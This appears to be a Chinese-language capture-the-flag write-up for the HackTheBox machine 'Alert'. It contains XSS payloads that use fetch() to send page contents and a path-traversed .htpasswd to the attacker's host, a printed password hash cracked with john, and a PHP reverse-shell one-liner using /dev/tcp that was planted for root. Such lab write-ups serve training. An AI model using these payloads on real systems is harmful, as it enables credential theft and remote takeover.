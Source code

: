 ```yaml
---
title: "HTB-Alert"
date: 2024-11-30
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap Scan

```
nmap alert.htb -sC -sV -T4 -Pn
```

![](./images/image-129.png)

开放端口：22、80，httpserver是Apache

进入80端口的网页，发现存在Markdown文件上传

![](./images/image-130.png)

根据题目名称Alert猜测，应该与XSS漏洞有关

## Subdomain Fuzz

```
ffuf -w main.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac
```

![](./images/image-131.png)

发现存在statistics的子域名

## XSS

这个是通过XSS读取到message.php的内容。具体操作如下：  
使用这个载荷，这个是预览md的时候的URL模板，把page设置为messages。

```
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.16.90/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

然后另起一个**python -m http.server 80**，会收到**URL**加密后的页面内容

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

从这里可以看到管理员查看的时候是有**messages.php?file**这个参数的。

在markdown文件中插入有效载荷

```
<script>
fetch("http://alert.htb/messages.php?file=filepath")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.xx.xx:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

经过尝试，无法直接读取到/etc/passwd这种敏感文件

但是考虑到web服务器使用的是Apache，可以参考一下这篇文章

- [什么是.htpasswd文件？-CSDN博客](https://blog.csdn.net/cunjiu9486/article/details/109071899)

于是有效载荷就修改为了这样↓

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.11:8888/?file_content=" + encodeURIComponent(data));
  });
</script>
```

将其上传后，复制分享链接

![](./images/image-132.png)

然后进入到Contact Us

![](./images/image-133.png)

点击发送，会在终端收到加密字符串

![](./images/image-134.png)

```
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A

<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

这看起来像是一种hash加密

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long alert.hash
```

![](./images/image-135.png)

使用SSH登录可以得到User.txt

![](./images/image-136.png)

## Privilege Escalation

遍历目录没有什么可疑文件，并且发现另一个用户david

![](./images/image-137.png)

上传linpeas，发现8080是打开的

![](./images/image-138.png)

将端口转发出来

```
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

![](./images/image-139.png)

在/opt目录下发现这个Website Monitor的文件夹，并且是有root权限的

![](./images/image-140.png)

```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.16.11/100 0>&1'"); ?>
```

写入反弹Shell的木马，并且设置监听

尝试访问下面这个路径

```
http://127.0.0.1:8080/config/hyh.php
```

得到反弹Shell，拿到Root权限

![](./images/image-141.png)

## Summary

这个XSS漏洞与以往CTF中遇到的XSS有点不一样

他并不是用来窃取身份凭证，而是用来进行主动访问，将信息外带
